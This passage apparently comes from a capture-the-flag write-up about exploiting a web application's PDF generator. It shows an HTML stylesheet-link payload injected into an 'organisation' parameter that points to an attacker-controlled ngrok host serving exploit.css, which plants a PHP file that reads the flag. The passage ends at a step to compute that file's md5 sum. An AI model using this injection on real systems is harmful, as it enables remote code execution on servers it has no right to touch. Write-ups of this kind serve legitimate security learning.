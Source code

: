 I'll append another line to print the flag from `/` directory.

![appending flag read](51.png "appending flag read")

![updated exploit_font.php](52.png "updated exploit_font.php")

Now while generating the PDF in the web application, put the value of organisation parameter as follows.

```html
<link rel=stylesheet href="<YOUR_ngrok_IP>/exploit.css">
```

Next, submit the request.

![Generated pdf](53.png "Generated pdf")

Now extract the `md5` sum of the `exploit_font.php` file as follows.
